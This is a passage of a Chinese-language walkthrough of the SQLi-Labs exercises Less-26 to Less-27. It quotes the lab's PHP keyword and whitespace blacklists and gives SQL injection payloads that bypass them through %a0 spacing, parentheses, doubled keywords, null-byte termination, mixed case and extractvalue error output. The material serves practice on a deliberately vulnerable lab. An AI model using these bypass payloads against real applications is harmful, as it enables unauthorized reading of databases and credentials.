 尝试了所有的空白符，居然都不行，有个 `%a0` 没被过滤，但是不解析，不过 Linux 上可以成功解析

```php
function blacklist($id) {
	$id= preg_replace('/or/i',"", $id);			//strip out OR (non case sensitive)
	$id= preg_replace('/and/i',"", $id);		//Strip out AND (non case sensitive)
	$id= preg_replace('/[\/\*]/',"", $id);		//strip out /*
	$id= preg_replace('/[--]/',"", $id);		//Strip out --
	$id= preg_replace('/[#]/',"", $id);			//Strip out #
	$id= preg_replace('/[\s]/',"", $id);		//过滤空白符，如换行、换页、空格、制表符
	$id= preg_replace('/[\/\\\\]/',"", $id);	//Strip out slashes
	return $id;
}
```

payload:

```sql
?id=0%27union%a0select%a01,database(),3;%00  -- linux（phpstudy上不解析，待研究）
?id=0%27union(select(1),database(),3);%00  -- 直接用括号分隔
?id=-1%27anandd(extractvalue(1,concat(0x7e,(select(user())),0x7e)));%00
```

##### Less-26a Blind based - All your SPACES and COMMENTS belong to us

多了个 `()` ，没有报错回显，依然 `%a0`，也可以盲注

```
?id=1%27)union(select(1),database(),3);%00
```

##### Less-27 Error based - All your UNION and SELECT belong to us

```php
function blacklist($id) {
    $id= preg_replace('/[\/\*]/', "", $id);		//strip out /*
	$id= preg_replace('/[--]/', "", $id);		//Strip out --.
	$id= preg_replace('/[#]/', "", $id);		//Strip out #.
	$id= preg_replace('/[ +]/', "", $id);	    //Strip out spaces.
	$id= preg_replace('/select/m', "", $id);	//Strip out spaces.
	$id= preg_replace('/[ +]/', "", $id);	    //Strip out spaces.
	$id= preg_replace('/union/s', "", $id);	    //Strip out union
	$id= preg_replace('/select/s', "", $id);	//Strip out select
	$id= preg_replace('/UNION/s', "", $id);	    //Strip out UNION
	$id= preg_replace('/SELECT/s', "", $id);	//Strip out SELECT
	$id= preg_replace('/Union/s', "", $id);	    //Strip out Union
	$id= preg_replace('/Select/s', "", $id);	//Strip out select
	
	return $id;
}
```

`select, union, 空格` 过滤不彻底

```
?id=-1%27and(extractvalue(1,concat(0x7e,(seLect%0aflag%0afrom%0aflag),0x7e)));%00
```

